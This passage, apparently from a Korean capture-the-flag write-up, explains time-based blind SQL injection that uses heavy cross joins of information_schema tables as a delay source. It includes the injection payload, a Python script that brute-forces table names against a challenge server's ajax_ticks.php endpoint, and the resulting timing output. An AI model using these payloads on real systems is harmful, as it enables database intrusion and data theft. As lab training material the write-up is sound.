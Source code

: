 ![](https://media.discordapp.net/attachments/857916308892418071/887238968624689182/5.png?width=1794&height=209)

```sql
select * from users cross join information_schema.tables cross join information_schema.columns on 1=0;
select * from users cross join information_schema.tables cross join information_schema.columns on 1=1;
```
일단 로컬에서 cross join을 이용해 메타 테이블들을 이어주는 퀴러를 위와 같이 작성 해 테스트를 해보았습니다. 사진을 보면 거짓일 때는, 쿼리 실행이 바로 종료 되지만, 참일 때는 오랜시간 슬립 현상이 발생하는 것을 확인할 수 있었습니다. 

그렇기 때문에 이를 이용해서 Time Based SQL Injection을 이용해 디비 정보를 모두 추출하면 됩니다.

![](https://media.discordapp.net/attachments/857916308892418071/887238988874784768/6.png?width=1794&height=1063)

```sql
btc cross join information_schema.columns cross join information_schema.tables on 1=1
```
그래서 `cross join`을 이용하여 위와 같이 메타 테이블 2개를 엮어주는 쿼리를 전송해주니 약 4초 정도 Sleep이 발생하는 것을 볼 수 있습니다. 이제 이를 이용해서 Time Based SQL Injection을 하면 될 거 같습니다 :) 

```python
import requests
import string

url = "http://15.165.49.138:26354/ajax_ticks.php?symbol=btc cross join information_schema.statistics cross join information_schema.processlist cross join information_schema.tables as m cross join information_schema.columns on m.table_name like 0x{}"

leaked = ""
while True:
    for s in string.printable:
        f = url.format((leaked + s + '%').encode().hex())
        r = requests.get(f)
        print(f"C: {s}, T: {r.elapsed}")
```
일단 테이블 명의 첫 글자들을 확인하기 위해 위와 같이 코드를 작성하였습니다. 그리고 문제에서는 테이블/컬럼 명, 레코드 값을 뽑을 때는 두 개의 테이블로는 크기가 부족해서 `statistics`, `processlist` 테이블을 추가로 조인 시켜 주었으며 위와 같이 PoC 코드를 작성해주었습니다.

```
C: 0, T: 0:00:00.040496
C: 1, T: 0:00:00.039568
C: 2, T: 0:00:00.033084
C: 3, T: 0:00:00.054973
C: 4, T: 0:00:00.040466
C: 5, T: 0:00:00.033778
C: 6, T: 0:00:00.036218
C: 7, T: 0:00:00.039113
C: 8, T: 0:00:00.039524
C: 9, T: 0:00:00.043274
C: a, T: 0:00:00.042083
C: b, T: 0:00:00.037688
C: c, T: 0:00:02.985553
C: d, T: 0:00:00.041576
C: e, T: 0:00:03.037683
C: f, T: 0:00:03.260697
C: g, T: 0:00:03.217965
C: h, T: 0:00:00.036901
C: i, T: 0:00:02.984188
C: j, T: 0:00:00.042655
C: k, T: 0:00:01.794134
C: l, T: 0:00:01.048942
C: m, T: 0:00:00.036848
C: n, T: 0:00:00.037003
C: o, T: 0:00:01.728545
C: p, T: 0:00:03.069760
```